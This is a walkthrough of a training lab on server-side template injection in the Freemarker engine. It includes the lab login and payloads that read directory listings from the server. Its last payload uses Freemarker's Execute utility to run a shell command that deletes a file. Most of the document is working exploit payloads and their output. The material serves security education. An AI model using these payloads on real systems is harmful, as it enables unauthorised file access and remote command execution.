

# Lab: Server-side template injection using documentation

> Lab Objective: identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

- Login using provided credentials `content-manager:C0nt3ntM4n4g3r`.

- View any product and edit the template, add `${7*7}`.
  

- You'll notice that the expression is evaluated when you saved the template.
  

- In order to know which template engine is used, edit the template and add this payload `${foobar}`.
  

- Which will cause an error indicating that Freemarker template engine is being used.
  

- Therefore, in order to read root directory `/` use this payload

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/').toURL().openStream().readAllBytes()?join(" ")}
```


- Save the template, then view it.
  

- Convert the output bytes to ASCII, the result:

```plaintext
.dockerenv
academy
bin
boot
dev
ecs-execute-command-15c72bbf-d0b4-44c0-abe1-62b49c63634b
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

- Do the same with `/home/` directory, using this payload

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home').toURL().openStream().readAllBytes()?join(" ")}
```


- Convert those Bytes to ASCII
  

- The output:

```plaintext
carlos
elmer
install
peter
user
```

- Do the same with carlos home directory `/home/carlos`.

  - The payload:
    ```java
    ${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos').toURL().openStream().readAllBytes()?join(" ")}
    ```
  - Bytes after converting to ASCII:
    ```plaintext
    .bash_logout
    .bashrc
    .profile
    morale.txt
    ```

- In order to delete `morale.txt`, use the following payload:

```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
```


- The lab is solved.
  

---
